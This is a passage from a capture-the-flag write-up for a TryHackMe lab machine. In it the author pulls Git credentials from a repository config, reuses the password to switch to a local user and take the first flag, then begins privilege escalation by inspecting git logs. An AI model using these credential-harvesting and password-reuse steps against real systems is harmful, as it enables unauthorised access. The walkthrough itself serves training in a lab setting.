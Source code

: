 ```shell

[credential "https://github.com"]
        username = think
        password = _T[REDACTED]$_
```

Apparently, this is a credential set for **Github** but by curiosity, I still try to switch to the `think` user using this newly found password :

```shell
www-data@Pyrat:/opt/dev/.git$ su - think
su - think
Password: _T[REDACTED]$_

think@Pyrat:~$ whoami
whoami
think
```

Luckily for us, this password is also the one used for the local machine account! Without further a do, we are able to retrieve the **first flag**.

![1](/assets/img/tryhackme/ctf/pyrat/1.png)

## Privilege Escalation

Now that we have access to the `think` user, who completely owns this git on the machine, we can dive into it a little more.

We can first search in the `logs` directory for some logged info :

```shell
think@Pyrat:/opt/dev/.git$ cat logs/HEAD
cat logs/HEAD
0000000000000000000000000000000000000000 0a3c36d66369fd4b07ddca72e5379461a63470bf Jose Mario <josemlwdf@github.com> 1687339934 +0000    commit (initial): Added shell endpoint
```

We can improve the display of this information using the `git cat-file` command and the **commit hash** :

```shell
think@Pyrat:/opt/dev/.git$ git cat-file -p 0a3c36d66369fd4b07ddca72e5379461a63470bf
<at-file -p 0a3c36d66369fd4b07ddca72e5379461a63470bf
tree 56110f327a3265dd1dcae9454c35f209c8131e26
author Jose Mario <josemlwdf@github.com> 1687339934 +0000
committer Jose Mario <josemlwdf@github.com> 1687339934 +0000

Added shell endpoint
```
